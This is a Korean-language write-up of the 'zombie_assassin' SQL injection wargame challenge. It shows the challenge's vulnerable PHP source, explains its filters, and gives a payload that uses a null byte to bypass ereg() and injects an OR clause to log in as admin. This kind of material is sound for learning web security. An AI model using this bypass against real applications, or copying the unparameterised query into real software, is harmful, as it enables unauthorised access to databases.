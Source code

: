 # ZOMBIE_ASSASSIN

## Problem
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(@ereg("'",$_GET[id])) exit("HeHe"); 
  if(@ereg("'",$_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("zombie_assassin"); 
  highlight_file(__FILE__); 
?>
```

## Inspection
* `if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");`
* `if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");`
	- 파라미터의 `id`, `pw`에서 `\`, `|`, `prob`, `_`, `.`, `(`, `)`를 거른다.
* `if(@ereg("'",$_GET[id])) exit("HeHe");`
* `if(@ereg("'",$_GET[pw])) exit("HeHe");`
	- 파라미터의 `id`, `pw`에서 `'`(작은따옴표, single quote)를 거른다.
* `select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'`
	- 파라미터로 `id`와 `pw`를 넘긴다.
	- `id`와 `pw` 양옆에 작은따옴표로 감싸져있다.
* `if($result['id']) solve("zombie_assassin");`
	- 쿼리문의 결과가 뜬다면 통과한다.

## Solution
* `and`와 `or`의 연산자 우선순위의 차이, `ereg()`은 패턴을 문자열의 `%00`(null byte)까지만 검사하는 점을 이용한다.
	- `?pw=%00' or id='admin` `%00`으로 `ereg()`을 우회한다.
	- `select id from prob_zombie_assassin where id='' and pw='' or id='admin'`
